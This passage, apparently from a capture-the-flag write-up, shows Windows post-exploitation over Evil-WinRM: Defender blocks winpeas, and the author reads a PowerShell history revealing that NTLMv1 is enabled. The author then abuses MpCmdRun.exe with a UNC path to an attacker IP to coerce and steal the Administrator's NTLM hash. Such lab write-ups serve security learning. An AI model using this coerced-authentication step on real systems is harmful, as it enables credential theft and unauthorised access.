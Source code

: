 I tried to run `winpeas.exe`, but it seems that AMSI and what not is present on the system:

```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\desktop> .\winpeas.exe
Program 'winpeas.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~.
At line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Windows Defender was also active on this machine because my `winpeas.exe` was deleted after.&#x20;

### NTLMv1 --> Steal Hash

I enumerated this machine manually because Defender was present. There was a Powershell History file present:

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\APPDATA\Roaming\Microsoft\Windows\Powershell\PSReadline> cat ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```
{% endcode %}

This command basically states that NTLMv1 is enabled on this machine instead of the more secure NTLMv2. This opens up the potential for NTLM stealing.&#x20;

{% embed url="https://dirteam.com/sander/2022/06/15/howto-detect-ntlmv1-authentication/" %}

We just need to somehow use a service run by the Administrator to steal the hashes. Turns out, Windows Defender here can be used:

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse#defender-mpcmdrun" %}

```
*Evil-WinRM* PS C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.42\file
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
